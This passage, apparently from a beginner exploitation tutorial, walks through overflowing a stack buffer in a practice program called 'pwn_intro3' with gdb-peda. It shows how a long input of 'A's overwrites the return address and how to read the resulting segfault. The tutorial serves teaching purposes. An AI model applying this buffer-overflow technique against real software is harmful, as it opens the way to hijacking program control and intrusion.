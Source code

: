 The debugger didn't complain, did it? Mine looks like the following snippet, 
so everything went really nice:
```
gdb-peda$ r <<< `python -c 'print "A" * 20'`
Starting program: /home/maritiren/pwn_intro3 <<< `python -c 'print "A" * 20'`
Professor maritio_o:
Does anyone remember the name of the spell we made last lecture?
[Inferior 1 (process 12852) exited normally]
Warning: not running or target is remote
```

However, we want it to segfault in order for us to get the padding for the 
return address. We try with more input:
```
gdb-peda$ r <<< `python -c 'print "A" * 100'`
```
```
[----------------------------------registers-----------------------------------]
EAX: 0x40 ('@')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd04c ('A' <repeats 64 times>, "\201>\337\367\001")
EDX: 0x40 ('@')
ESI: 0xf7fb3000 --> 0x1d7d6c 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd070 ('A' <repeats 28 times>, "\201>\337\367\001")
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffd070 ('A' <repeats 28 times>, "\201>\337\367\001")
0004| 0xffffd074 ('A' <repeats 24 times>, "\201>\337\367\001")
0008| 0xffffd078 ('A' <repeats 20 times>, "\201>\337\367\001")
0012| 0xffffd07c ('A' <repeats 16 times>, "\201>\337\367\001")
0016| 0xffffd080 ('A' <repeats 12 times>, "\201>\337\367\001")
0020| 0xffffd084 ("AAAAAAAA\201>\337\367\001")
0024| 0xffffd088 ("AAAA\201>\337\367\001")
0028| 0xffffd08c --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ 
```

That looks more like it! Notice how the debugger prints the address that it
segfaulted on, right there on the bottom of the snippet. You should be looking
for the two lines `Stopped reason: SIGSEGV` and `0x41414141 in ?? ()`, where
the first tells us it stopped due to a segfault (SIGSEGV), and the last prints
the address making the program overflow. We overwrote the return address on the 
stack with A's, making
the program to try continuing to that address. But _0x41414141_ isn't a valid
memory address! It is just the hexadecimal representation of four A's!
